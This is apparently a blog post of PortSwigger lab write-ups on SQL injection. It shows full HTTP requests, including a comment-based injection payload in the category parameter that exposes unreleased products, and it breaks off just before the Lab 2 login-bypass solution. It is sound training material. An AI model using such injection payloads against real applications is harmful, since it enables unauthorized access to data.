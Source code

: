 ```yaml
---
layout: post
title:  SQL Injection Labs
date:   2023-10-11 03:49:10 +0100
categories: sql-injection
post_id: 5
---
```


What follows is solution to various sql injection labs. The labs are from [Portswigger](https://portswigger.net) and [PentesterLab](https://pentesterlab.com).

## Portswigger Labs

### [Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Lab 1 Task

***This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:***

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

***To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.***

### Lab 1 Solution

Initial request to the product category endpoint:

```http
GET /filter?category=Gifts HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The image below shows the response to the above request:

![lab1](./2023-10-11-sql-injection-labs-assets/2023-10-12_16-09_normal_response.png)

We can see from the above response only 3 products are displayed. To solve the lab we will attempt to comment out the `AND released = 1` part of the query and see if we can get the unreleased products. To do this we will use the `--` comment syntax. The `--` syntax comments out everything after it. So we will send the following request:

```http
GET /filter?category=Gifts'+--+a HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

The image below shows the response to the above request:

![lab1](./2023-10-11-sql-injection-labs-assets/2023-10-12_17-27_response_with_injection.png)

We can see that 4 products are now displayed, which means we have successfully injected the query. And that's it for lab 1 we have successfully view an unreleased product.

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_17-31_lab1_solved.png)

### [Lab 2: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Lab 2 Task

***This lab contains a SQL injection vulnerability in the login function.***

***To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.***

### Lab 2 Solution

